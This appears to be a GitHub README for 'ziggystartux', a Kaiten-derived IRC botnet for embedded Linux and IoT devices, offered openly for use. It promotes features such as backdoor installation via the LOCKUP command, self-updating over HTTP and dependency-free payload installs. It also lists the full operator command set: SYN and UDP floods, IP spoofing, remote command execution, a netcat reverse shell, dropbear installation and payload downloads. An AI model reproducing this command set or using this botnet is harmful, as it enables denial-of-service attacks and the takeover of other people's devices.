 # ziggystartux
A Kaiten rewrite, with much new functionality, and many fixes for the old stuff! Tailored toward embedded Linux devices, because... well, the internet of things of the new frontier!
<pre>
/*******************************************************************************
 *  oooooo  o                      .oPYo.  o             ooooo                 
 *     d'                         8       8               8                    
 *    d'  o8 .oPYo. .oPYo. o    o `Yooo. o8P.oPYo. oPYo.  8  o    o `o  o'     
 *   d'    8 8    8 8    8 8    8     `8  8 .oooo8 8  `'  8  8    8  `bd'      
 *  d'     8 8    8 8    8 8    8      8  8 8    8 8      8  8    8  d'`b      
 * dooooo  8 `YooP8 `YooP8 `YooP8 `YooP'  8 `YooP8 8      8  `YooP' o'  `o     
 *.......:..:....8 :....8 :....8 :.....::..:.....:..:::::..::.....:..:::..     
 *::::::::::::ooP'.::ooP'.::ooP'.:::::::::::::::::::::::::::::::::::::::::     
 *::::::::::::...::::...::::...:::::::::::::::::::::::::::::::::::::::::::     
 ***************************************************************************** 
 * This is a remake of Kaiten, hacked together from various versions scattered 
 * throughout cyberspace. New features include a variety of awesome shell one- 
 * liners, ability to upgrade the bot over http (via gcc or static binary), a  
 * feature called "HackPkg" that installs binaries without dependencies like   
 * wget or tftp, and more! Tip: run GETBB <tftp ip> first to get the most out  
 * of this bot (it will install to /var/bin, which is almost always writable). 
 * The LOCKUP command will kill telnetd and run a backdoor of your choice (for 
 * simplicity we assume you will run it on port 23). This bot is updated often,
 * so check back frequently for new killer features and ddos tools. In memory  
 * of David Bowie, because he was an awesome musician and passed during the    
 * early development of this bot. By ShellzRuS and all the other developers    
 * that have worked on Kaiten over the last 20 years.                          
 *                                                                             
 *        "Hacking on kaiten is a right of passage" --Kod                      
 *******************************************************************************
 *   This is a IRC based distributed denial of service client.  It connects to 
 * the server specified below and accepts commands via the channel specified.  
 * The syntax is:                                                              
 *       !<nick> <command>                                                     
 * You send this message to the channel that is defined later in this code.    
 * Where <nick> is the nickname of the client (which can include wildcards)    
 * and the command is the command that should be sent.  For example, if you   
 * want to tell all the clients with the nickname starting with N, to send you 
 * the help message, you type in the channel:                                  
 *       !N* HELP                                                              
 * That will send you a list of all the commands.  You can also specify an     
 * astrick alone to make all client do a specific command:                     
 *       !* SH uname -a                                                        
 * There are a number of commands that can be sent to the client:              
 *       PAN <target> <port> <secs>    = A SYN flooder                         
 *       UDP <target> <port> <secs>    = An UDP flooder                        
 *       UNKNOWN <target> <secs>       = Another non-spoof udp flooder         
 *       NICK <nick>                   = Changes the nick of the client        
 *       SERVER <server>               = Changes servers                       
 *       GETSPOOFS                     = Gets the current spoofing             
 *       SPOOFS <subnet>               = Changes spoofing to a subnet          
 *       DISABLE                       = Disables all packeting from this bot  
 *       ENABLE                        = Enables all packeting from this bot   
 *       KILL                          = Kills Ziggy                           
 *       GET <http address> <save as>  = Downloads a file off the web          
 *       VERSION                       = Requests version of bot               
 *       KILLALL                       = Kills all current packeting          
 *       HELP                          = Displays this                         
 *       IRC <command>                 = Sends this command to the server      
 *       SH <command>                  = Executes a command                    
 *       ISH <command>                 = "Interactive" SH, send to channel     
 *       BASH <command>                = Run a bash command                    
 *       SHD <command>                 = Daemonize command                     
 *       UPDATE <http://server/bot>    = Update this bot                       
 *       HACKPKG <http://server/bin>   = Install binary (no dependencies)      
 *       INSTALL <http://server/bin>   = Install binary (via wget)             
 *       BINUPDATE <http://server/bin> = Update a binary (via wget)            
 *       SCAN <nmap opts>              = Call an nmap wrapper script           
 *       GETSSH <http:serverdropbear>  = Install dropbear, run on port 30022   
 *       RSHELL <ip port>              = Equates to nohup nc ip port           
 *       GETBB <tftp server>           = Get a proper busybox (via tftp)       
 *       LOCKUP <http://server/bin>    = Kill telnet, install a backdoor!      
 *                                                                             
 * Remember, all these commands must be prefixed by a ! and the nickname that  
 * you want the command to be sent to (can include wildcards). There are no    
 * spaces in between the ! and the nickname, and there are no spaces before    
 * the !                                                                       
 *                                                                             
 *                               - contem on efnet                             
 *******************************************************************************/
</pre>
